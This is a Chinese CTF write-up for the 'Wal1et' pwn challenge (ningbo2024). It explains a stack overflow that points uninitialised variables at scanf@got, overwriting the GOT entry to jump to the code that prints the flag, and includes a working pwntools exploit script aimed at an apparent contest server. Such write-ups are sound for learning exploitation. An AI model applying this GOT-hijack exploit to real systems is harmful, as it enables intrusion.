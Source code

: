 ```yaml
---
title: ningbo2024 初赛 - Wal1et
date: 2024/5/8 23:58:00
updated: 2024/7/25 12:34:56
tags:
    - got-hijack
excerpt: 通过栈溢出覆盖`scanf@got`，利用`check`函数中的`scanf`实现代码执行，最终获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

```c
void check(void)

{
  int local_14;
  int local_10;
  
  printf("Now try the First password : ");
  __isoc99_scanf("%d",local_14);
  fflush(_stdin);
  printf("Now try the Second password : ");
  __isoc99_scanf("%d",local_10);
  puts("Let me think......");
  if ((local_14 == 0x528e6) && (local_10 == 0xcc07c9)) {
    puts("OMG!YOU SUCCESS!"); // check + 0x98
    system("/bin/cat flag");
    return;
  }
  puts("You Failed! Try again.");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

审计`check`函数的代码，32位，`local_14`和`local_10`既是int也是指针。在函数`begin`中，
可以输入大量数据覆盖栈帧，而这两个指针的值并未经过初始化，从而可以指定这两个变量的值。
题目要求这两个变量的值为`0x528e6`和`0xcc07c9`，但它们不可能是有效的指针，在运行scanf的时候会引发SIGSEGV。
因此将其覆盖为`scanf@got`，并利用`check`中的`scanf`将`check+0x98`写入指针中，
这样在读入第二个数的时候就会跳到`scanf@plt`，再运行`scanf@got`的地址，
即从`puts("OMG!YOU SUCCESS!")`开始运行，打印出flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './Wal1et'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.132.170.0', 32687)
    elf = ELF(EXE)
    scanfGot = elf.got['__isoc99_scanf']

    sh.sendlineafter(b'JUST', b'1')
    # reach the length of %108s, so use send to prevent \n drop down
    sh.sendafter(b'name', b'Rocket'.ljust(0x64, b'\0') + p32(scanfGot) + p32(scanfGot))
    sh.sendlineafter(b'First', str(0x804871b).encode()) # check + 0x98
    sh.sendlineafter(b'Second', str(0x804871b).encode())

    sh.recvuntil(b'flag{')
    flag = sh.recvuntil(b'}')
    success(f'{GOLD_TEXT("Flag is:")} {"flag{"}{flag.decode()}')
    sh.close()
```
